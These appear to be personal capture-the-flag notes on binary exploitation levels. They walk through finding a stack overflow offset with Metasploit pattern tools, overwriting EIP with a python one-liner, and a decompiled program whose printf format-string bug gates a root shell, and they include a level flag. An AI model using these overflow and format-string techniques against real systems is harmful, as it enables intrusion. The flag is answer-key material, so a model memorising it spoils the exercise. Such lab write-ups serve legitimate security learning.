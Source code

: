 On this level, we can see that we don't have any function susceptible to open us a shell. Time to inject shellcode !

Let's first determine what's the offset our program will crash at. For that purpose, we can use [[Metasploit]] tools:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

This will create a payload full of unique character sequences, which will help us determine the exact position our program crashed at. 

Reference: [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5 - 0xRick’s Blog](https://0xrick.github.io/binary-exploitation/bof5/)

![[Pasted image 20231205125619.png]]

On the bottom, we can see the buffer address where the program crashed: `37634136`

We can therefore give it to another Metasploit program to determine the offset:

```bash
/usr/share/metasploit-framework/tools/exploit/./pattern_offset.rb -q 37634136
[*] Exact match at offset 80
```

We now need to find the address we want 

Now when we run the program with 80 characters, the behavior changes:

```bash
python -c "print ('A'*80 + '\x28\xf7\xff\xbf')" | ./level2 
(0xbffff728)
```

We can successfully overwrite `eip` here:

![[Pasted image 20231211133102.png]]

Now that we did that, we need to make sure `eip` points to somewhere in our shellcode. Since no [[ASLR]] happens here, we could just determine the address where our shellcode starts.

`492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

# level3

```c
void v(void)
{
  char buffer [520];

  fgets(buffer,512,stdin);
  printf(buffer);
  if (m == 64) {
    fwrite("Wait what?!\n",1,12,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}
```
